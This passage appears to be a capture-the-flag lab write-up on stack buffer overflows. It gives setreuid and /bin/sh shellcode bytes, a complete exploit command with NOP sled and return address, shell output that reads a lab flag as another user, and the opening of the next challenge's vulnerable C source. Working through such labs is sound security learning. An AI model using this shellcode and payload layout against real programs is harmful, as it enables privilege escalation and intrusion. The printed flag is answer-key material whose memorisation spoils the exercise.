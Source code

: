```
[*] You have the latest version of Pwntools (4.8.0)
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05

>>> len('\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05')
14


Our payload now looks like this:

┌───────────────────┬────────────────────┬────────────────────┬────────────────────┬────────────────────┐
│ NOP sled (90)     │  setreuid (14)     │ shellcode (40)     │ random chars (8)   │ Memory address (6) │
└───────────────────┴────────────────────┴────────────────────┴────────────────────┴────────────────────┘
total length = 90 + 14 + 40 + 8 + 6 = 158

Let’s test: 

[user1@ip-10-10-69-210 overflow-3]$ ./buffer-overflow $(python2 -c "print '\x90'*90 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*8 + '\x88\xe2\xff\xff\xff\x7f'")
Here's a program that echo's out your input
������������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1��������������
sh-4.2$ whoami
user2
sh-4.2$ cat secret.txt
omgyoudidthissocool!!

it works 😊 



```

![[Pasted image 20221017184228.png]]

Use the above method to open a shell and read the contents of the secret.txt file.
*omgyoudidthissocool!!*

### Buffer Overflow 2 

Look at the overflow-4 folder. Try to use your newly learnt buffer overflow techniques for this binary file.



```
sh-4.2$ exit
exit
[user1@ip-10-10-69-210 overflow-3]$ cd ../overflow-4
[user1@ip-10-10-69-210 overflow-4]$ ls
buffer-overflow-2  buffer-overflow-2.c  secret.txt
[user1@ip-10-10-69-210 overflow-4]$ cat buffer-overflow-2.c
#include <stdio.h>
#include <stdlib.h>

void concat_arg(char *string)
{
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
```